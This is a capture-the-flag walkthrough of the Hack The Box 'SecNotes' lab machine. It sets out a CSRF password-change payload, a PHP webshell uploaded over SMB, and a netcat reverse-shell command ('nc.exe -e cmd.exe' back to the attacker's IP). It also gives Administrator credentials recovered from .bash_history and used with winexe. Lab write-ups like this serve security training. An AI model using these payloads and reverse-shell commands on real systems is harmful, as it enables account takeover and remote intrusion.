# [SecNotes](https://app.hackthebox.com/machines/secnotes)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.97 -Pn
```



After knowing open ports(80,445,8808), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,445,8808 10.10.10.97 -Pn
```




I see login and register page of application on port (80).




Let's register and login.


dr4ks: dr4ks1





I enumerate web application and can't find anything, but one thing is that I can do CSRF (Cross-Site Request Forgery) attack on page of 'Contact'.

Let's try this.






I see that while sending request to 'tyler' user, it automatically clicks.

If I send malicious link (password change) to him, I can know his password.

Let's enumerate password change function.




Now, I will put this malicious password change into Contact section and tyler clicks this and I can see his password.

```bash
http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit
http://10.10.16.8/attackedworkeddr4ks
```





Yes attack worked.


Let's login to 'tyler' account via 'password'.




Hola, we find his cleartext credentials(calls for **new site**).




tyler / 92g!mA8BGjOirkL%OG*&


I try to access SMB share via this credentials and it worked.

```bash
smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&'
```




We have 'WRITE' privilege for 'new-site' share, if we upload something to here, we can see from HTTP server which locating on **port '8808'**

Let's try this.





Let's add our webshell to execute commands.





Let's add 'nc.exe' file into this machine to get reverse shell.




Now, browse the page and add reverse shell command.

```bash
curl "http://10.10.10.97:8808/cmd.php?cmd=nc.exe+-e+cmd.exe+10.10.16.8+1337"
```




user.txt






I find credentials here.

secnotes: q8N#9Eos%JinE57tke72

root: qwer1234QWER!@#$


Now, I enumerate more and find 'bash.lnk' file on 'tyler' Desktop.



I just switched into `powershell`.

While I just run  `bash.exe` on Powershell, it gives me 'root' user on Linux machine.




As you see from image , I see 'Administrator' credentials on **`.bash_history`** file.

administrator%u6!4ZwgwOM#^OBf#Nwnh

I just use `winexe` tool to access into machine via 'Admin' privileges.

```bash
winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
```




root.txt

